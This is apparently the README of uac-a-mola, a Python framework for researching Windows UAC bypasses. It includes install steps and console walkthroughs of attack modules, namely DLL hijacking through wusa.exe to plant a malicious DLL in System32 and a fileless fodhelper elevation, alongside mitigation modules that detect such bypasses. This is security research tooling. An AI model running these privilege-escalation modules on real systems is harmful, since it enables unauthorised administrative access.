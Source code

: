 # uac-a-mola
# Installation
To install uac-a-mola you have to perform the following actions:
1. **Download and install python 2.7.x for Windows** taking into account your particular infrastructure, you can find the binaries here: https://www.python.org/downloads/
2. **Add the python path to the _path_ enviroment variable**. You can do this by carrying out the following steps:
    1. Right click to _mycomputer_ and left click to properties
    2. Left click to Advance system configuration
    3. Lef click to Enviroment Variables
    4. In the _system variables_ box, double left click to _Path_ 
    5. Left clicking into _New_ add the following paths:
        * C:\Python27\
        * C:\Python27\scripts\
3. **Download uac-a-mola tool from github** by downloading the .zip file or by clonning the repo.
4. **Open the folder _uac-a-mola-master_ with a cmd and execute the following command**:
```
pip install -r requirements.txt
```
Uac-a-mola is now ready to rock! You can test its functionality by typing:
```
cd uacamola
python uacamola.py
```
# Tutorial
This is a brief section that explains the use of some of the uac-a-mola modules:

## Attack modules
Using the attack modules is something very simple that hardly requires explanation. The only thing you have to do is load the corresponding module in the framework using the **_load_** command, you can see the options or input parameters using the **_show_** command, with the **_run_** command the module is executed:
```
uac-a-mola> load .\modules\attack\dll_hijacking_wusa.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[dll_hijacking_wusa.py]> show

 Author
 ------
 |_Pablo Gonzalez (pablo@11paths or @pablogonzalezpe)

 Name
 ----
 |_Copy DLL with wusa.exe

 Description
 -----------
 |_It's used for copy a DLL in privilege path (wusa method win7/8/8.1)


 Options (Field = Value)
 -----------------------
 |_name_dll = comctl32.dll (name of DLL)
 |
 |_binary = compmgmtlauncher.exe (Path to the vulnerable binary)
 |
 |_malicious_dll = C:\Users\ieuser\Desktop\uac-a-mola\uacamola\payloads\comctl32\comctl32.dll (Path to a malicious dll)
 |
 |_name_folder = x86_microsoft.windows.common-controls_6595b64144ccf1df_6.0.7601.17514_none_41e6975e2bd6f2 (Name folder)
 |
 |_destination_path = C:\Windows\System32 (Destination path)


uac-a-mola[dll_hijacking_wusa.py]> run
[+] Running module...
creating path...
SUCCESS: done
copying dll in path...
SUCCESS: done
creating DDF file...
SUCCESS: done
creating CAB file...
SUCCESS: done
launch wusa.exe /extract
SUCCESS: done! got root? :D
removing path...
SUCCESS: done
uac-a-mola[dll_hijacking_wusa.py]>
```
And other example:
```
uac-a-mola> load modules\attack\fileless_fodhelper.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[fileless_fodhelper.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_Fileless Fodhelper

 Description
 -----------
 |_Fileless - Fodhelper bypass UAC

 Options (Field = Value)
 -----------------------
 |_instruction = C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -C echo mola > c:\pwned.txt (Elevated Code)

uac-a-mola[fileless_fodhelper.py]> set instruction powershell.exe
uac-a-mola[fileless_fodhelper.py]> run
[+] Running module...
```
## Mitigate modules
Using the mitigation methods is also quite simple, but they have a slightly more complex internal structure that will be explained in this section. In relation to its use, the first thing that must be done is to load the available mitigation module:
```
uac-a-mola> load modules\mitigation\bypass_mitigation.py
[+] Loading module...
[+] Module loaded!
uac-a-mola[bypass_mitigation.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_This module will instrument the binaries selected and detect possible UAC bypasses

 Description
 -----------
 |_Bypass Mitigation

 Options (Field = Value)
 -----------------------
 |_[REQUIRED] password = None (Password for connection)
 |
 |_[REQUIRED] binlist_file = None (File with a list of binaries to hook, one on each line)
 |
 |_port = 5555 (Port for connection)

```
In this case, we will need to set a password that the agents will use to comunicate with the listener that will be executed in uacamola framework. We can find the agents in the path _uacamola/support/agents_ , opening that files we can see the password:
```
fodhelper_ag = Agent('fodhelper.exe', 'localhost', 5555, 'uacamola')
fodhelper_ag.send_forbidden("Software\\Classes\\ms-settings\\Shell\\Open\\command")
```
_uacamola_ will be the password used for authentication and comunication, but we can change it.
The other parameter required is a path to a file that contains a list of binaries to monitor, this binaries must have an agent.pyw file in the agents paths.
```
uac-a-mola[bypass_mitigation.py]> show

 Author
 ------
 |_Santiago Hernandez Ramos

 Name
 ----
 |_This module will instrument the binaries selected and detect possible UAC bypasses

 Description
 -----------
 |_Bypass Mitigation

 Options (Field = Value)
 -----------------------
 |_password = uacamola (Password for connection)
 |
 |_binlist_file = bins.txt (File with a list of binaries to hook, one on each line)
 |
 |_port = 5555 (Port for connection)

uac-a-mola[bypass_mitigation.py]> run
[+] Running module...
[+] Executing the listener...

--- Press ENTER for quit mitigate mode ---
```
Just filling this fields and executing the _run_ command, uacamola will start monitoring all the activity related to UAC bypass in the binaries that appear in the list. If dangerous activity is detected, it will automatically prune the dangerous branch (of the file system or registry) and it will execute the binary in a secure way. For exiting this mode we just need to press de _ENTER_ key.

## Research modules
# Write your own modules


# Support
Please report any error to santiago.hernandezramos@telefonica.com or pablo@11paths.com or just open an issue in GitHub. Your collaboration is appreciated!
